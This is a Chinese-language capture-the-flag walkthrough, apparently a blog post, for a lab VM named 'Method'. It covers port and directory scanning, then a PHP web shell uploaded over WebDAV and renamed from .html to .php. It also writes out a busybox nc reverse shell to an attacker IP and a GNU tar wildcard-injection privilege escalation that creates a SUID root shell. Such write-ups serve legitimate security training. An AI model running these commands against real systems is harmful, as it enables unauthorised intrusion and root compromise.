




# Method


# Method

    

## 端口扫描

```bash
(base) ┌──(root㉿kali)-[~]
└─# rustscan -a 192.168.56.179 --ulimit 5000 -- -sV -A 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.56.179:22
Open 192.168.56.179:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -A" on ip 192.168.56.179
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-11 21:41 CST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:41
Completed NSE at 21:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:41
Completed NSE at 21:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:41
Completed NSE at 21:41, 0.00s elapsed
Initiating ARP Ping Scan at 21:41
Scanning 192.168.56.179 [1 port]
Completed ARP Ping Scan at 21:41, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:41
Completed Parallel DNS resolution of 1 host. at 21:41, 0.04s elapsed
DNS resolution of 1 IPs took 0.04s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 21:41
Scanning 192.168.56.179 [2 ports]
Discovered open port 22/tcp on 192.168.56.179
Discovered open port 80/tcp on 192.168.56.179
Completed SYN Stealth Scan at 21:41, 0.02s elapsed (2 total ports)
Initiating Service scan at 21:41
Scanning 2 services on 192.168.56.179
Completed Service scan at 21:41, 6.04s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 192.168.56.179
NSE: Script scanning 192.168.56.179.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:41
Completed NSE at 21:41, 0.26s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:41
Completed NSE at 21:41, 0.01s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:41
Completed NSE at 21:41, 0.00s elapsed
Nmap scan report for 192.168.56.179
Host is up, received arp-response (0.00065s latency).
Scanned at 2026-07-11 21:41:49 CST for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5+deb11u7 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDP4OvUJ0xKoulS7xOYz1485bm/ZBVN/86xLQvh7Gqa1DmEWz/eHP2C3MJQnqTFPOEh18FULOzj9fiehyzhd6CM7+qBZ/4B9b5RkOx7AL+S3aRIey4qQj7/k72PqMBkyfD2krjNOg7ZZe8z9o0A4VyeDljG6ukVFeN6PEtWWtdmmnVJztgzX0wPWPaO9GM5hITyvpIB/Y/IqueYR+ft2n5ROLLUfjFLezB+zSa6xkDPGiY9qMZBMXA/6oaaD3TV1x6jfTtZi+Aca0scDfOTJUVlSwZYaHrJQSNlKFJhniucqq/zxOnMIHjs/v1YXYCh0jlYDsb5J/NqTzEPMKkbtwn97T5/FQvsWDGJFTtxvCCrInmnUHB+cG8dSRYQZ763QoPxF/feDSNbrKjTv8D1K2EPhf1rBGQGIObgatVHNFclVWfuq7sn4x9olNnbsEogIQ5mbEq0mBlgOW5vowFxUkI60Ond4Dl7H4fkCeiPfngWFrT+6cQoNgA3HRKf6NtQeYs=
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNDNbes4gKOy7nXoXxW1kPwOX/vuxNkae5WSrIFu+ZD8OUIX5OK8e6o7IZDJAxn/ACAJL9Mm+tA44syyemA6C40=
|   256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINItrDSHbBfPB1CJosqklAQXN4/Mt++ocUqbiG861ZSG
80/tcp open  http    syn-ack ttl 64 lighttpd 1.4.59
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.59
|_http-title: Welcome page
MAC Address: 08:00:27:B1:EF:02 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/11%OT=22%CT=%CU=37526%PV=Y%DS=1%DC=D%G=N%M=080027
OS:%TM=6A524825%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II
OS:=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7
OS:%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%
OS:W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S
OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%R
OS:D=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=
OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U
OS:1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
OS:I=N%T=40%CD=S)

Uptime guess: 30.038 days (since Thu Jun 11 20:47:46 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.65 ms 192.168.56.179

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:41
Completed NSE at 21:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:41
Completed NSE at 21:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:41
Completed NSE at 21:41, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.22 seconds
           Raw packets sent: 25 (1.894KB) | Rcvd: 17 (1.366KB)
```

## 80/tcp

HTTP 首页是 lighttpd 默认页面，但源码末尾有注释：

```html
<!-- s:853e9a42efca88ae0dd1a83aeb215047 -->
```

目录枚举发现 `/webdav`：

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# gobuster dir -u http://192.168.56.179/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt,zip,bak,js,py,sh,jsp,ps1 -b 404,403 -t 50 -k
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.179/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,js,jsp,html,txt,zip,bak,py,sh,ps1
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/webdav               (Status: 301) [Size: 0] [--> /webdav/]
Progress: 52261 / 52261 (100.00%)
===============================================================
Finished
===============================================================
```

下面几篇文章介绍了这个漏洞

- [RCE via WebDav - Power Of PUT. Hello everyone, at first I want to… | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/rce-via-webdav-power-of-put-7e1c06c71e60)
- [WebDAV 渗透测试 --- WebDAV Penetration Testing](https://www.hackingarticles.in/webdav-penetration-testing/)
- [WebDAV 渗透测试 |黑客维瑟](https://hackviser.com/tactics/pentesting/services/webdav)

 `OPTIONS /webdav` 显示 WebDAV 方法开启：

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# curl -i -X OPTIONS http://192.168.56.179/webdav
HTTP/1.1 301 Moved Permanently
DAV: 1,2,3
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Location: /webdav/
Content-Length: 0
Date: Sat, 11 Jul 2026 17:04:52 GMT
Server: lighttpd/1.4.59
```

- `OPTIONS /webdav`​ 返回 `DAV: 1,2,3`。
- `Allow`​ 里有 `PUT`​、`MKCOL`​、`MOVE`​、`COPY`​、`DELETE`。
- 说明 WebDAV 开启，并且支持写入、创建目录、移动/改名文件。

直接上传 `.php`​ 被拦，所以关键绕过是先上传 `.html`​，再用 WebDAV `MOVE`​ 改成 `.php`：

```bash
# /webdav/ 下面创建一个名叫 sg 的目录
(base) ┌──(root㉿kali)-[/tmp]
└─# curl -X MKCOL http://192.168.56.179/webdav/sg/
                                                                                                                                                           
(base) ┌──(root㉿kali)-[/tmp]
└─# printf '<?php system($_GET["cmd"] ?? "id"); ?>' > shell.html
                                                                                                                                                           
(base) ┌──(root㉿kali)-[/tmp]
└─# curl -T shell.html http://192.168.56.179/webdav/sg/shell.html
                                                                                                                                                           
(base) ┌──(root㉿kali)-[/tmp]
└─# curl -X MOVE -H 'Destination: http://192.168.56.179/webdav/sg/shell.php' http://192.168.56.179/webdav/sg/shell.html
                                                                                                                                                           
(base) ┌──(root㉿kali)-[/tmp]
└─# curl 'http://192.168.56.179/webdav/sg/shell.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

反弹 shell 

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# curl --get \
  --data-urlencode "cmd=busybox nc 192.168.56.102 3344 -e /bin/bash" \
  "http://192.168.56.179/webdav/sg/shell.php"
```

稳定一下 shell

```bash
/usr/bin/script -qc /bin/bash /dev/null
按下 ctrl z
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
```



```bash
www-data@method:/home/www-data$ ls
user.txt
www-data@method:/home/www-data$ cat user.txt 
5492fc195e7dd4bf3ce4f413674156b6
www-data@method:/home/www-data$ 
```

## 提权

上传并运行 `linpeas.sh` 后，发现异常文件：

```bash
/var/backups/webdav.tgz
```





发现 `/var/backups/webdav.tgz`​ 每分钟更新一次，所以该备份文件由 root 周期性生成，内容来自可写目录 `/var/www/html/webdav`​。归档内容没有绝对路径前缀，说明备份任务很可能在 WebDAV 目录内使用了类似 `tar czf /var/backups/webdav.tgz *` 的通配符命令。

利用 GNU tar wildcard 注入：

```bash
cd /var/www/html/webdav
cat > sg.sh <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/sgroot
chmod 4755 /tmp/sgroot
id > /tmp/sgroot.out
cat /root/root.txt >> /tmp/sgroot.out 2>/dev/null
EOF
chmod +x sg.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh sg.sh'
```



差不多一分钟后执行

```bash
www-data@method:~/html/webdav$ /tmp/sgroot -p -c 'id; cat /root/root.txt'
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
370ac5644039db096693f936c2bca98f
www-data@method:~/html/webdav$ 
```


flag：

> user.txt: 5492fc195e7dd4bf3ce4f413674156b6  
> root.txt: 370ac5644039db096693f936c2bca98f


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/method/  

